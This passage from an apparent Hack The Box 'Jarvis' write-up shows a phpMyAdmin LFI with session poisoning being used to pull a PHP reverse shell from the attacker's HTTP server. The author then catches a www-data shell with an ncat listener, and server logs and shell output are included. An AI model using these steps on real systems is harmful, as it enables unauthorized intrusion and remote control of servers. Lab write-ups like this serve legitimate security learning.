 From there, I accessed the PHP session identifier via LFI to run the exploit.
Notice that the session name will go in the URL and can be found be looking up the `phpMyAdmin` cookie as demonstrated below.

![](/assets/images/htb-jarvis/jarvis-phpmyadmin-execute-lfi-downloader.png)

At this point, my PHP reverse shell was successfully downloaded to `/var/www/html/r0kit-rsh.php`!

```
kali@kali:~/htb/machines/jarvis/web-80/phpmyadmin/exploit$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.143 - - [23/Sep/2020 19:36:42] "GET /r0kit-rsh.php HTTP/1.1" 200 -
10.10.10.143 - - [23/Sep/2020 19:36:42] "GET /r0kit-rsh.php HTTP/1.1" 200 -
```

Note that if you wish to execute multiple commands, you may need to logout log back in so that you can poison a new PHP session.

I then executed my reverse shell as `www-data` by visiting `http://10.10.10.143/r0kit-rsh.php`:

```
kali@kali:~/htb/machines/jarvis/loot$ ncat -nlvp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48462.
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
 19:40:44 up  2:32,  0 users,  load average: 0.00, 0.00, 0.00
 USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 /bin/sh: 0: can't access tty; job control turned off
 $ id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation - User (Restricted Sudo - OS Command Injection Filter Bypass)

